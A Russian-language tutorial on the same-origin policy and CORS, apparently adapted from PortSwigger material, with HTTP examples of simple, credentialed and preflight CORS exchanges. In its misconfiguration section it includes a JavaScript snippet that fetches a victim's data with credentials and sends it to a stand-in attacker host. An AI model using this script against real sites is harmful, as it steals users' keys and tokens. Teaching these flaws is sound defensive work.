

# 7.6 CORS (Cross-Origin Resource Sharing)

> КРАТКО - Access-Control-Allow-Origin

## 1. Что такое CORS (междоменный обмен ресурсами)?
`CORS` (Cross-Origin Resource Sharing) — это механизм браузера, который позволяет контролировать доступ к ресурсам другого домена. Он расширяет возможности `политики одного источника` (SOP). Однако неправильная настройка `CORS` может привести к междоменных атакам. `CORS` также не защищает от таких атак, как `CSRF` (подделка межсайтовых запросов).



## 2. Политика одного источника
Политика одного источника (Same-Origin Policy, `SOP`) — это ограничение браузера, которое не позволяет веб-сайту свободно взаимодействовать с ресурсами другого источника.

Эта политика появилась как защита от потенциально опасного междоменного взаимодействия, например кражи данных с другого сайта. Обычно браузер позволяет сайту отправлять запросы на другой домен, но не позволяет ему читать ответы на эти запросы.

### 2.1 Какова политика одного источника?
Политика одного источника (Same-Origin Policy, `SOP`) — это механизм безопасности браузера, который не позволяет одному веб-сайту атаковать другой.

`SOP` ограничивает скрипты одного источника и не позволяет им получать доступ к данным другого источника. Источник определяется тремя параметрами: `схемой URI`, `доменом` и `портом`.

Например, рассмотрим следующий URL:
```
`http://normal-website.com/example/example.html`
```
Здесь используется схема `http`, домен `normal-website.com` и порт `80`. В таблице показано, разрешит ли `SOP` доступ к другим URL с этого адреса:

| URL | Доступ разрешен? |
|---| ----|
|`http://normal-website.com/example/`|Да: та же схема, домен и порт |
|`http://normal-website.com/example2/`|Да: та же схема, домен и порт |
|`https://normal-website.com/example/`|Нет: другая схема и порт      |
|`http://en.normal-website.com/example/`|Нет: другой домен             |
|`http://www.normal-website.com/example/`|Нет: другой домен             |
|`http://normal-website.com:8080/example/`|Нет: другой порт *             |

/* `Internet Explorer` разрешает такой доступ, поскольку при применении `SOP` не учитывает номер порта.

### 2.2 Почему необходима политика одного источника?
Когда браузер отправляет HTTP-запрос с одного источника на другой, вместе с ним отправляются cookie, в том числе cookie сессии авторизации для другого домена. Поэтому ответ формируется в рамках сессии пользователя и может содержать данные, относящиеся именно к этому пользователю.

Без политики одного источника вредоносный сайт мог бы читать ваши письма в Gmail, личные сообщения в Facebook и другие данные с посещаемых вами сайтов.

### 2.3 Как реализуется политика одного источника?
Политика одного источника обычно контролирует доступ JavaScript к содержимому, загруженному с другого источника. При этом загрузка ресурсов с других источников обычно разрешена. Например, `SOP` позволяет встраивать изображения через тег ``, видео через `<video>` и JavaScript через `<script>`. Однако JavaScript на странице не может прочитать содержимое этих внешних ресурсов.

Существуют различные исключения из политики одного источника:
* Некоторые объекты можно изменять, но нельзя читать из другого источника. Например, объект `location` или свойство `location.href` другого окна.
* Некоторые объекты можно читать, но нельзя изменять. Например, свойство `length` объекта `window`, которое показывает количество фреймов на странице, и свойство `closed`.
* Функцию `replace` обычно можно вызвать для объекта `location` из другого источника.
* Некоторые функции можно вызывать между источниками. Например, `close`, `blur` и `focus` для другого окна. Также можно использовать `postMessage` для отправки сообщений между окнами из разных источников.

Из-за требований совместимости политика одного источника менее строгая для cookie. Поэтому cookie часто доступны всем поддоменам сайта, даже если технически каждый поддомен имеет свой источник. Частично снизить этот риск можно с помощью флага cookie `HttpOnly`.

Политику одного источника можно ослабить с помощью `document.domain`. Это свойство позволяет ослабить `SOP` для определенного домена, если он является частью полного доменного имени (FQDN).

Например, есть домены `marketing.example.com` и `example.com`, и нужно разрешить им читать содержимое друг друга. Для этого оба домена должны установить `document.domain` в `example.com`. После этого `SOP` разрешит доступ между ними, несмотря на то, что изначально они имеют разные источники.

Раньше `document.domain` можно было установить в домен верхнего уровня, например `com`, что позволяло бы взаимодействовать любым доменам с тем же TLD. Современные браузеры больше этого не позволяют.

## 3. Ослабление политики одного источника
Политика одного источника довольно строгая, поэтому существуют разные способы ослабить ее ограничения. Многие сайты взаимодействуют с поддоменами или сторонними сайтами и для этого требуют доступа между источниками. Контролируемо ослабить `SOP` можно с помощью `CORS` (междоменного обмена ресурсами).

`CORS` использует набор HTTP-заголовков, которые указывают доверенные источники и дополнительные параметры, например возможность доступа с авторизацией. Эти заголовки используются при обмене данными между браузером и сайтом другого источника, к которому браузер пытается получить доступ.

### 3.1 CORS и заголовок ответа Access-Control-Allow-Origin
В этом разделе разберем, что означает заголовок `Access-Control-Allow-Origin` и какую роль он играет в `CORS`.

`CORS` позволяет контролируемо ослабить политику одного источника для HTTP-запросов к одному домену с другого домена с помощью набора HTTP-заголовков. Браузер использует эти заголовки, чтобы определить, можно ли получить доступ к ответу на междоменный запрос.

### 3.2 Что такое заголовок ответа Access-Control-Allow-Origin?
Заголовок `Access-Control-Allow-Origin` добавляется в ответ сайта на запрос с другого сайта. Он указывает, какому источнику разрешен доступ к ответу.

Браузер сравнивает значение `Access-Control-Allow-Origin` с источником сайта, который отправил запрос. Если они совпадают, браузер разрешает доступ к ответу.

### 3.3 Внедрение простого обмена ресурсами поперечного происхождения (Реализация простого CORS)
Спецификация `CORS` определяет набор заголовков, которыми обмениваются сервер и браузер, чтобы контролировать запросы к ресурсам с других источников. Один из главных заголовков — `Access-Control-Allow-Origin`. Сервер возвращает его в ответ на междоменный запрос, который браузер отправляет с заголовком `Origin`.

Например, сайт `normal-website.com` отправляет следующий междоменный запрос:
```http
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
```
Сервер `robust-website.com` возвращает следующий ответ:
```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```
Браузер разрешит коду на `normal-website.com` получить доступ к ответу, поскольку указанный источник совпадает с источником запроса.

Спецификация `Access-Control-Allow-Origin` допускает указание нескольких источников, значения `null` или подстановочного символа `*`. Однако браузеры не поддерживают несколько источников, а использование `*` имеет ограничения.

### 3.4 Обработка междоменного запроса с учетными данными
По умолчанию междоменные запросы отправляются без учетных данных, например cookie и заголовка `Authorization`. Однако сервер может разрешить чтение ответа на запрос с учетными данными, если установит заголовок CORS `Access-Control-Allow-Credentials: true`.

Например, запрашивающий сайт с помощью JavaScript отправляет cookie:
```http
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

Сервер отвечает:
```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```
В этом случае браузер разрешит запрашивающему сайту прочитать ответ, поскольку заголовок `Access-Control-Allow-Credentials` установлен в `true`. В противном случае браузер не разрешит доступ к ответу.

### 3.4 Ослабление CORS с помощью подстановочного символа
Заголовок `Access-Control-Allow-Origin` поддерживает подстановочный символ `*`. Например:
```http
Access-Control-Allow-Origin: *
```

> ***Примечание - Подстановочный символ нельзя использовать внутри другого значения. Например, следующий заголовок **недействителен**:***
```http
Access-Control-Allow-Origin: https://*.normal-website.com
```

К счастью, использование `*` ограничено правилами безопасности: его нельзя использовать вместе с передачей учетных данных — аутентификацией, cookie или клиентскими сертификатами.

Поэтому следующий ответ сервера недопустим:

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
Это было бы опасно, поскольку позволяло бы любому сайту получать доступ к аутентифицированным данным целевого сайта.

Из-за этих ограничений некоторые веб-серверы динамически формируют заголовок `Access-Control-Allow-Origin` на основе источника, указанного клиентом. Такой подход позволяет обойти ограничения `CORS`, но является небезопасным. Позже мы рассмотрим, как его можно использовать.

### 3.5 Предварительные проверки
**Предварительная проверка (preflight)** была добавлена в `CORS`, чтобы защищать старые ресурсы от новых вариантов запросов, которые разрешает `CORS`.

В некоторых случаях, когда междоменный запрос использует нестандартный HTTP-метод или заголовки, перед ним браузер отправляет запрос с методом `OPTIONS`. `CORS` требует сначала проверить, какие методы и заголовки разрешены, и только после этого отправить основной запрос. Это называется **предварительной проверкой**.

Сервер возвращает список разрешенных методов и заголовков, а также доверенный источник. Браузер проверяет, разрешен ли такой запрос.

Например, это предварительный запрос, который хочет использовать метод `PUT` и пользовательский заголовок `Special-Request-Header`:
```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

Сервер может ответить:
```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

В этом ответе указаны разрешенные методы (`PUT`, `POST` и `OPTIONS`) и заголовок запроса (`Special-Request-Header`). Сервер также разрешает отправку учетных данных.

Заголовок `Access-Control-Max-Age` указывает, как долго браузер может хранить предварительный ответ в кэше и использовать его повторно. Если метод и заголовки запроса разрешены, как в этом примере, браузер отправляет междоменный запрос обычным способом.

Предварительная проверка добавляет дополнительный HTTP-запрос перед основным междоменным запросом, поэтому увеличивает нагрузку на сеть.

### 3.6 Защищает ли CORS от CSRF?
`CORS` **не защищает от CSRF-атак**. Это распространенное заблуждение.

`CORS` — это контролируемое ослабление политики одного источника. Поэтому неправильно настроенный `CORS` может увеличить вероятность `CSRF`-атак или усилить их последствия.

`CSRF`-атаки можно выполнять и без CORS, например с помощью обычных HTML-форм и междоменной загрузки ресурсов.

## 4. Уязвимости из-за неправильной настройки CORS
Многие современные веб-сайты используют `CORS`, чтобы разрешить доступ к своим поддоменам и доверенным сторонним сайтам. Ошибки в настройке `CORS` или слишком слабые ограничения могут привести к уязвимостям, которые можно использовать для атаки.

### 4.1 Серверный заголовок ACAO на основе заголовка Origin, заданного клиентом
`ACAO` - Access-Control-Allow-Origin

Некоторым приложениям нужно разрешать доступ с нескольких других доменов. Поддерживать список разрешенных доменов сложно, а ошибки могут нарушить работу приложения. Поэтому некоторые приложения просто разрешают доступ с любого домена.

Один из способов сделать это — взять значение заголовка `Origin` из запроса и вернуть его в заголовке ответа `Access-Control-Allow-Origin`. Например, приложение получает запрос:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Затем оно отвечает:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
Эти заголовки показывают, что доступ разрешен запрашивающему домену (`malicious-website.com`), а междоменный запрос может содержать `cookie` (`Access-Control-Allow-Credentials: true`). Поэтому запрос будет выполняться в рамках сессии пользователя.

Поскольку приложение отражает произвольный `Origin` в заголовке `Access-Control-Allow-Origin`, любой домен может получить доступ к ресурсам уязвимого сайта. Если ответ содержит конфиденциальные данные, например API-ключ или `CSRF`-токен, их можно получить с помощью следующего скрипта, размещенного на своем сайте:
```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerable-website.com/sensitive-victim-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = '//malicious-website.com/log?key=' + this.responseText;
};
```

### 4.2 Ошибки разбор Происхождения заголовки


https://portswigger.net/web-security/cors
https://portswigger.net/web-security/cors/same-origin-policy
https://portswigger.net/web-security/cors/access-control-allow-origin
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet


https://portswigger.net/web-security/cors